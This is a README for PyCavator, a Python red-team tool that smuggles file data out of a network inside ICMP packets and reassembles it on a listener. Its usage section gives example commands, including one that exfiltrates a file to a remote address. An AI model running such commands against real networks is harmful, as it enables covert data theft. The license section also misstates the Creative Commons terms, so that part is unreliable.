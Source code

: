 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP packets. The tool can be used for authorized red teaming and penetration testing activities or educational purposes. It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. The tool also includes a merge mode to merge output files with part numbers in the specified range. With PyCavator, users can easily exfiltrate or receive data using ICMP packets in a secure and efficient manner.

## Usage

```txt
usage: PyCavator.py [-h] [-l] [-f FILE] [-d ADDRESS] [-s ADDRESS] [-p PROTOCOL] [-w WRITE] [-o FOLDER]
                    [--merge] [-x PREFIX] [-a START_SUFFIX] [-b END_SUFFIX] [-e EXTENSION]

Send and receive data using ICMP packets.

options:
  -h, --help            show this help message and exit
  -l, --listen          listen for incoming data (default: send data)
  -f FILE, --input_file FILE
                        input file to exfiltrate (required in sender mode)
  -d ADDRESS, --dst_addr ADDRESS
                        destination IP address (required in sender mode)
  -s ADDRESS, --src_addr ADDRESS
                        source IP address to listen for (required in listener mode)
  -p PROTOCOL, --protocol PROTOCOL
                        protocol to use (icmp)
  -w WRITE, --write WRITE
                        choices to save data (c for chunk OR s to one single file, required in listener mode)
  -o FOLDER, --output_folder FOLDER
                        output folder for received data (optional in listener mode OR required in merge mode)
  --merge               merge output files with part numbers in the specified range (default: False)
  -x PREFIX, --prefix PREFIX
                        prefix of the output file (required in merge mode)
  -a START_SUFFIX, --start_suffix START_SUFFIX
                        start part number suffix (required in merge mode)
  -b END_SUFFIX, --end_suffix END_SUFFIX
                        end part number suffix (required in merge mode)
  -e EXTENSION, --extension EXTENSION
                        extension of the output file (required in merge mode for saving data to single file)

Examples:
  # Sender mode: exfiltrate data from a file
  python PyCavator.py -f input.txt -d 192.168.1.101 -p icmp
  
  # Listener mode: listen for incoming data and save in chunks
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w c
  
  # Listener mode: listen for incoming data and save to a single file
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w s -o output_folder
  
  # Merge mode: merge output files with part numbers in the specified range
  python PyCavator.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

## Installation

PyCavator.py requires Python 3 to be installed. To install PyCavator.py, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator.py, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-ShareAlike 4.0 International Public (CC BY-NC-SA 4.0) License.

Under the CC BY-NC-SA 4.0 license, users are allowed to fork, modify, and distribute the project, as long as they follow the license terms.

Users can fork the project to create their own version, and modify it to suit their needs, as long as they distribute their modified version under the same license terms and under the same name. If they want to distribute their modified version under a different name, they would need to seek permission from the original creator.

Users can also submit pull requests to the original repository with their modifications, and the original creator can choose to accept or reject those changes. If the changes are accepted, the modified version will still need to be distributed under the same license terms and under the same name.

It's important to note that the CC BY-NC-SA 4.0 license prohibits commercial use of the project without explicit permission from the original creator. This means that if someone wants to use the project or a modified version of it for commercial purposes, they would need to obtain permission from the original creator to do so. See the [LICENSE](LICENSE) file for details.




